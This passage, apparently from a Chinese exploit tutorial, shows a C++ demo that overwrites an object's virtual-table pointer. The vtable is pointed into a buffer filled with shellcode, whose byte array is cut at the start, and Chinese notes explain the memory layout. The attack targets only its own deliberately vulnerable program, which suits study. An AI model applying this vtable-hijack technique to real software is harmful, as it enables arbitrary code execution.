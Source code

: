 ```CPP
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\xAC\xBA\x40\x00"; // set fake virtual function pointer

class Failwest
{
  public:
    char buf[200];
    virtual void test(void)
    {
      cout << "Class Vtable::test()" << endl;
    }
};

Failwest overflow, *p;

void main(void)
{
  char * p_vtable;
  p_vtable = overflow.buf - 4; // point to virtual table
  cout << "Buf Address:" << &overflow.buf << endl;
  // reset fake virtual table to 0x0040BB5C
  // the address may need to ajusted via runtime debug
  p_vtable[0] = 0x5C;
  p_vtable[1] = 0xBB;
  p_vtable[2] = 0x40;
  p_vtable[3] = 0x00;
  strcpy(overflow.buf,shellcode); // set fake virtual function pointer
  p = &overflow;
  p->test();
}
```

### 说明

- 虚表指针位于成员变量`char buf[200]`之前，程序中通过`p_vtable = overflow.buf - 4`定位到此指针
- 修改虚表指向缓冲区`0x0040BB5C`处，这里是shellcode的末尾，在这里填入`0x0040BAAC`也就是shellcode的起始地址，程序将跳去执行shellcode
- 这种方式既不是栈溢出也不是堆溢出，因为对象的内存空间位于堆中，但是却是连续线性覆盖的空间，所以准确的说应该叫做“数组溢出”或者“连续性覆盖”
- 使用DWORD SHOOT攻击虚表可能会更加简单
